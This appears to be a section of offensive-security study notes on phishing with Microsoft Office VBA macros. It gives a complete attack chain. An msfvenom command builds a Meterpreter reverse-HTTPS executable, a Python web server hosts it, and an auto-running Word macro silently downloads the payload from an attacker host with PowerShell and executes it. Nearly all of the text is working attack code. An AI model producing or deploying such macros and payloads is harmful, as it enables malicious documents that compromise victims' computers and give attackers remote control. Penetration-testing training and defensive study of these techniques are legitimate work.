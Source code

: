 **1.2.1.1 Phishing With MS Office - VB Macros - Method 1 (On Disk)**
> `Important`: Sometimes you need to insert the FULL path of the payload to be executed!
{: .prompt-info }
In Method 1 (On DISK), we use VB scripts to download the binary and execute it on the disk.

1. Create the payload using `msfvenom`:
    ```bash
    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f exe -o pay.exe
    ```

2. Start a local HTTP server using Python or PHP for file transfer, or use any available tool you typically have on hand.
    ```bash
    sudo python -m http.server 80
    ```

3. Made the necessary changes to the script.
    ```vb
    ' The following 2 functions allowed the execution of our macro when the docuemnt is opened
    Sub Document_Open()
        MyMacro
    End Sub

    Sub AutoOpen()
        MyMacro
    End Sub

    Sub MyMacro()
        Dim str as String
        str = "powershell (New-Object System.Net.WebClient).DownloadFile('https://192.168.x.x/pay.exe', 'pay.exe')"
        Shell str, vbHide
        
        ' The file will dropped on the current file directory, we can execute it from there
        Dim exePath as String
        exePath = ActiveDocument.Path  + "\pay.exe"

        ' Wait for a 2 second
        Wait(3)
        
        ' Execute the payload
        Shell exePath, vbHide
    End Sub

    ' The download process may take time, create a function to make a delai (wait time)
    ' Due that there is No default function exists on MS Word for Wait
    Sub Wait(n as Long)
        Dim t as Date
        t = Now
        Do
            ' To do not block MS office, lets it doing other actions (events)
            DoEvents
        Loop Until Now >= DateAdd("s", n, t)
    End Sub
    ```
    - You can use `Invoke-WebRequest` too:
        ```vb
        powershell Invoke-WebRequest 'https://192.168.x.x/pay.exe' -OutFile 'pay.exe'
        ```
